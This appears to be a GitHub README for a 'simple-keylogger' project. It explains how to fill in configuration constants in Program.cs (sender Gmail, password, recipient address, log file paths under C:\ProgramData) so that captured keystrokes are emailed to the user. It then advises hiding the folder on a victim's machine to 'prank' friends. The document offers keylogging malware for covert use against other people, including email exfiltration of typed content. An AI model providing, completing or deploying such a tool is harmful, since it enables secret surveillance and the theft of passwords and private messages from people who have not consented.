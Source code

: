 # simple-keylogger
Ebin keylogger


yo can change name of da logs folder if you want 

what do you need to use keylogger?
-only one alt gmail
-notepad


first download this repostory then open logs folder and right click Program.cs and open with notepad then find this

// private const string FROM_EMAIL_ADDRESS = "ENTER YOUR SENDER GMAIL";
        private const string FROM_EMAIL_PASSWORD = "ENTER YOUR PASSWORD";
        private const string TO_EMAIL_ADDRESS = "ENTER GMAIL WHERE TO SEND LOGS";
        private const string LOG_FILE_NAME = @"C:\ProgramData\mylog.txt";
        private const string ARCHIVE_FILE_NAME = @"C:\ProgramData\mylog_archive.txt";
        private const bool INCLUDE_LOG_AS_ATTACHMENT = true;
        private const int MAX_LOG_LENGTH_BEFORE_SENDING_EMAIL = 100;
        private const int MAX_KEYSTROKES_BEFORE_WRITING_TO_LOG = 0;
//

enter your sender gmail (your alt) and password and your gmail where you wanna receive these "logs" then just hid logs folder somewhere and done 




prank yo friends if you have any with this
 
